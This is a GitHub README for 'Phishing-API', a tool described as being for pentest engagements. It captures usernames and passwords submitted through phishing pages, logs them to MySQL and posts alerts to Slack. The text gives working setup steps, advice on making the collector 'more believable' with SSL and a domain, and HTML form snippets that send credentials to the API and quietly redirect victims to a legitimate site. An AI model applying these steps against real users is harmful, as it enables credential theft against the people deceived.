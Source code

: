 # Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot


To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP in a web service

3) Configure dbconfig.php

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (More Believable for Phishing)



To Use : 

1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the "username" and "password" fields are named as such

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Site)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials


![Notification to Slack Channel](https://i.imgur.com/BIYQWry.jpg)



![View Captured Credentials via Web](https://i.imgur.com/UjMVPJ3.jpg)
